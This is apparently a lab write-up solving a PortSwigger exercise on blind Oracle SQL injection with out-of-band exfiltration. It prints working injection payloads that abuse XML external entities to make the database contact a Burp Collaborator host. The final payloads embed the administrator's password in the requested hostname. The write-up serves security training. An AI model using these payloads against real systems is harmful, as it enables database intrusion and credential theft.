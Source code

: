 # Blind SQL injection with out-of-band data exfiltration

*A clean, step‑by‑step write‑up using my original flow and **raw payloads** (left as written), plus short notes on XML entities and Oracle behavior.*

---

## 🎯 Goal
**Extract the `administrator` password via out‑of‑band (OOB) DNS and log in.**

> For labs/authorized testing only.

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** extract administrator password via OOB blind sqli
2. We already know this has the default DB structure of table named **`users`** with two columns **`username`** and **`password`**.
3. Since we're dealing with blind sqli, on a black‑boxed lab, it can take a very long time. In day‑to‑day PT, we’ll use the internet.
4. Here we have the SQLi cheat sheet: <https://portswigger.net/web-security/sql-injection/cheat-sheet>
5. Scrolling down, grab the following **Oracle** payload:
   ```sql
   SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
   ```
6. Blindly try to get a **DNS request** with Burp Collaborator. *Note:* sites like **interact.sh** might not get your request due to PortSwigger blocking those requests.
7. Add the breaking point `'` and comment at the end with `+--+`.
8. Add **UNION** since we can’t just use a simple `SELECT`.
9. Raw attempt:
   ```
   ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual+--+
   ```
10. At this point note that if you **encode the whole payload**, signs like `+` will get **double‑encoded**, and the payload won’t be stable in decoding.
11. Remove `+` and make spaces so once I encode everything I get a normal encoded injection payload.
12. Encoded‑string version I used:
    ```
    '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//1rt2jjv3brup3hasr9keqt8tkkqbe12q.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+--
    ```
13. Now, after I got the **DNS** request (screenshot 1), I know my way of getting the password is **attaching the password** to the subdomain.
14. In Oracle we have `||` as **concatenation**. It should look like:
    ```
    ||(SELECT password from user WHERE username='administrator')||
    ```
15. Payload attempt:
    ```
    '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//||(SELECT password from user WHERE username='administrator')||.1rt2jjv3brup3hasr9keqt8tkkqbe12q.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+--
    ```
16. Didn’t work. I had a **typo** in the table name (`user` vs `users`). But it **still** didn’t work.
17. Realized I’m **breaking string literals**. Meaning the XML string `'... "<%3fxml ..."` must be closed **before** inserting concatenation.
18. So `||(SELECT password from user WHERE username='administrator')||` becomes:
    ```
    '||(SELECT password from user WHERE username='administrator')||'
    ```
19. **Final query** (with `users` corrected and proper string concatenation):
    ```
    '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+WHERE+username%3d'administrator')||'.1rt2jjv3brup3hasr9keqt8tkkqbe12q.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+--
    ```
20. **Log in** as the administrator.
21. **Lab solved!** ✅

---

## 🧠 How it works (Oracle XML, entities, and OOB)
- **XMLTYPE + EXTRACTVALUE**: Calling `XMLTYPE('<xml here>')` parses the XML. `EXTRACTVALUE(..., '/l')` runs a (mostly irrelevant) XPath to “use” the document; the important part is **parsing**.
- **External entities**: In the `<!DOCTYPE ...>` you declare **parameter entity** `%remote` with `SYSTEM "http://<your-collab>/"`. When `%remote;` is **expanded**, Oracle’s XML parser **fetches** that URL → triggers **DNS + HTTP** to your domain (OOB signal).
- **Why UNION**: In many sinks, a lone `SELECT` won’t fit the original query. `UNION SELECT <scalar>` is a common way to splice your expression into the existing statement.
- **Why HTTPS failed**: TLS/ACL/cert constraints often block HTTPS; **HTTP** is more likely to work in labs. DNS resolution still happens, but the parser may not proceed over HTTPS failures.
- **String concatenation pitfalls**: Your XML string must stay a **valid quoted literal**. To splice dynamic content (like a password) into the URL, you must **close the string**, `||` your subquery, then **reopen** the string literal. That was the key correction in the final payload.
- **EXTRACTVALUE** deprecation: Later Oracle versions deprecate `EXTRACTVALUE`; alternatives like `XMLQuery`/`XMLExists` still parse XML and can trigger external entity fetches when expansion is enabled.
- **Permissions/ACL**: Built‑in network packages (`UTL_HTTP`, `UTL_INADDR`, etc.) are usually restricted. The XXE path sometimes bypasses those **ACL** gates — which is why this trick works in many labs.

> Guardrail: Always have explicit permission. XXE‑style OOB can reach sensitive network paths (IMDS, internal hosts). Keep targets to your Collaborator domain only.

---

## ⌨️ Raw payloads I used (kept exactly)
```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual+--+
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//1rt2jjv3brup3hasr9keqt8tkkqbe12q.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+--
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+WHERE+username%3d'administrator')||'.1rt2jjv3brup3hasr9keqt8tkkqbe12q.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual+--
```

---

## 🏁 Result
- Confirmed OOB via **DNS/HTTP** with the XML entity trick, then **exfiltrated the password** inside the request hostname using `||` + subquery. Logged in as **administrator**. **Solved. ✅**
